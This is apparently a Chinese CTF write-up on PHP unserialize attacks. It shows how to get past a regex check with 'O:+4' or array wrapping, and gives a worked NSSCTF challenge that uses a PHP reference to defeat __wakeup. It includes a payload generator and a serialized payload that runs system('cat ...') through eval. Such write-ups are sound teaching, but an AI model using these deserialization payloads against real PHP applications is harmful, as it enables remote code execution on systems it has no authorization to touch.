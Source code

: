 <font style="color:rgb(254, 44, 36);">分析</font>

<font style="color:rgb(77, 77, 77);">如上正则匹配检查时，匹配到O:4会终止程序，可以替换为O:+4绕过正则匹配；</font>

<font style="color:rgb(77, 77, 77);">或者将对象放入数组再序列化 serialize(array($a))；</font>

<font style="color:rgb(77, 77, 77);">前者有的php版本不适应，后者通用；</font>

##### <font style="color:rgb(79, 79, 79);">引用</font>
```php
//简单例题
 
<?php
 
show_source(__FILE__);
 
###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
$bbb=unserialize($_GET['a']);
NSSCTF{This_iS_SO_SO_SO_EASY} 
```

分析



        魔术方法___wakeup()会使变量a为空，且由于正则限制无法通过改变成员数量绕过__wakeup()，这时可以使用引用的方法，使变量a与变量b永远相等，魔术方法__destruct()把变量c值赋给变量b时，相当于给变量a赋值，这就可以完成命令执行，payload如下：

```php
<?php
class test
{
    public $a;
    public $b;
    public $c='system("cat /fffffffffflagafag");';
 
}
$h = new test();
$h->b = &$h->a;   //注意：取会改变的属性的地址，如取a的地址赋值给b，当给a赋值时a会等于b的值
echo '?a='.serialize($h);
 
//输出
//?a=O:4:"test":3:{s:1:"a";N;s:1:"b";R:2;s:1:"c";s:33:"system("cat /fffffffffflagafag");";}
```
